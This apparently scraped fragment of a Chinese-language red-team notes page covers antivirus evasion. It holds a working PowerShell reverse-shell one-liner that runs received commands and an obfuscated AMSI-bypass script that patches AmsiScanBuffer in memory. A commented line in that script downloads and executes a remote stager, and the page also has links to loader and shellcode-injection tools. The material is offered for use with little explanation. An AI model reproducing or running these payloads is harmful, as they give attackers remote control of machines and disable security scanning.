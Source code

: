 ```bash
[>] Please enter the base name for output files (default is payload): test
```
![-w667](https://i.loli.net/2021/01/18/igfI2YRDubzU9ph.jpg)

### Simple-Loader 免杀Defender
https://github.com/cribdragg3r/Simple-Loader

![-w1027](https://i.loli.net/2021/01/18/dSBPvIxk8hXuFa5.jpg)

### 反弹socket --- NativePayload_ReverseShell
```powershell
powershell -c "$client = New-Object Net.Sockets.TCPClient('172.16.76.1',12345);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback +'> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

https://github.com/DamonMohammadbagher/NativePayload_ReverseShell
![-w1008](https://i.loli.net/2021/01/18/x45X8iUBmda2I1H.jpg)


### bypassAMSI
```powershell
# mov eax, 80070057h
# ret
Write-Host "-- AMSI Patch"
Write-Host "-- Paul Laîné (@am0nsec)"
Write-Host ""

${Kern`eL32} = @"
using System;
using System.Runtime.InteropServices;

public class Kernel32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);

    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type ${Kern`el32}
[IntPtr]$hModule = [Kernel32]::LoadLibrary("amsi.dll")
${A`DDRE`Ss} = [kernel32]::GetProcAddress($hModule, "Amsi"+"Scan"+"Buffer")
${p} = 0
[kernel32]::VirtualProtect(${A`DdRes`S}, [uint32]5,0x40, [ref]${P})
${pat`ch} = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)

If (${a`DDrEsS} -ne 0){
    [System.Runtime.InteropServices.Marshal]::Copy(${p`AT`cH}, 0, ${A`DdR`eSs}, 6)
}
# $string = 'iex ((new-object net.webclient).downloadstring("http://192.168.214.129/amsi-bypass")); if([Bypass.AMSI]::Disable() -eq "0") { iex ((new-object net.webclient).downloadstring("http://192.168.214.129/stager")) }'
```


[go/shellcode_inject/virtual>>]: generate